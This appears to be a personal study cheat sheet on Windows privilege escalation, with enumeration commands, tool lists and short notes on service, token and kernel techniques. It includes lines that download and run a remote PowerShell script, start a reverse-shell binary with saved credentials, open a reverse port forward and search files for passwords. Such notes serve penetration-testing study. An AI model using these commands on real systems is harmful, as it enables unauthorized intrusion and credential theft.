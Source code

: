 ```yaml
---
description: >-
  at the end of the day, you have to picture the way. these tools can only guide
  you so much
---
```


# Windows PrivEsc

HKCU - Current User\
HKLM - Local Machine

{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html" %}
Whole picture + Weak Services
{% endembed %}

{% embed url="https://benheater.com/thm-windows-privesc/" %}
No nonsense - straight to business
{% endembed %}

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-weak-registry-permission/" %}
Weak Registry
{% endembed %}

Watch out for ADS (Alternate data streams) - good way to hide data (`dir /R` lists it out for you)&#x20;

Host file -`C:\Windows\System32\drivers\etc\hosts`

## Commands

```
findstr /B /C "string" - grep basically
certutil -urlcache -f http://$IP/$PATH_TO_FILE - wget basically
searchsploit <keyword> - search for exploits here instead of google first lmao
searchsploit -m $ID - gets exploit code/script from db
icacls - ACL to files/directories
where /R c:\windows bash.exe

iwr -Uri "[file_url]" -OutFile "$env:TEMP\[file]"; 
iex "$env:TEMP\shell.ps1"
```

### Basic Info gathering

```
systeminfo - (look for latest hotfixes patched)
wmic qfe - check patch history (wmi - windows management instrumentation command line quick fix engineering)
wmic logicaldisk get caption,description,providername
```

#### User Enumeration

```
whoami /priv /groups
net user (lists users on system)
net user $username - lists all relavant info of that user
net localgroup $groupname
```

#### Network Enumeration

```
ipconfig
arp -a
netstat -ano 
```

#### Password Hunting (Can automate)

```
findstr "/si password *.txt (look for string "password" in any txt file) 
```

#### AV Enumeration

```
sc query windefend
sc query <query> see what services are running
netsh advfirewall firewall dump
netsh firewall show state/config
```

## Automated Enumeration

#### GO TO

* winPEAS.exe
* PowerUp.ps1
* SharpUp.exe
* Rubeus.exe
* Certify.exe

#### TO BE SOON

* Seatbelt.exe
* Watson.exe
* Sherlock.ps1
* jaws-enum.ps1
* windows-exploit-suggester.py

Sherlock looks for a set of CVEs most famous

## Passwords and Port Forwarding

```
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```

Password exploits

*   Saved creds

    ```
    cmdkey /list
    runas /savecred /user:username C:\PrivEsc\reverse.exe
    ```
* Registry - The registry can be searched for keys and values that contain the word "password":
* SAM (Security Account Manager)\
  SAM and SYSTEM can be found at `Windows/System32/config`
* Pass the hash - if `psexec` don't work, `smbexec.py` (half shell) or `wmiexec`

## Service Exploits

* Insecure Service Permissions
* Unquoted Service Path&#x20;
* Weak Registry Permissions (If writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users)

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc #check perms
sc qc daclsvc
```

## WSL

not sure if i need it at this point in time so do come back and check up

## Token Impersonation

like cookies for your computer

* Delegate - created for logging into machine or RDP
* Impersonate - "non-interactive" such as attaching network drive or domain login script&#x20;

```
whoami /priv 
```

msfvenom to generate powershell payload, check how to do it wo meterpreter tho

**getsystem** - Magic way to become Admin, DO NOT SPAM

3 methods

* Named Pipe impersonation (In memory/admin)
* Named Pipe impersonation (Dropper/admin) - most risky, will be flagged by AV cus inserting dll into disk
* Token Impersonation (In memory/admin) - Needs SeDebugPriveleges

## Kernel Exploits

Most basic zero skill vector - this why make sure your systems are always updated

windows-exploit-suggester.py does bitsss (update db before using tho, run locally: feed it systeminfo data and it will run it against its db)

it has exploits for diff builds of windows

MS10-059 and others very popular: focus on privelege escalation vulns mentioned&#x20;

## Further ones to watch

* Executable Files - \[Ben `AlwaysInstallElevated`]
* Startup Applications - \[Ben `Autorun`]
* DLL Hijacking - \[Ben DLL]

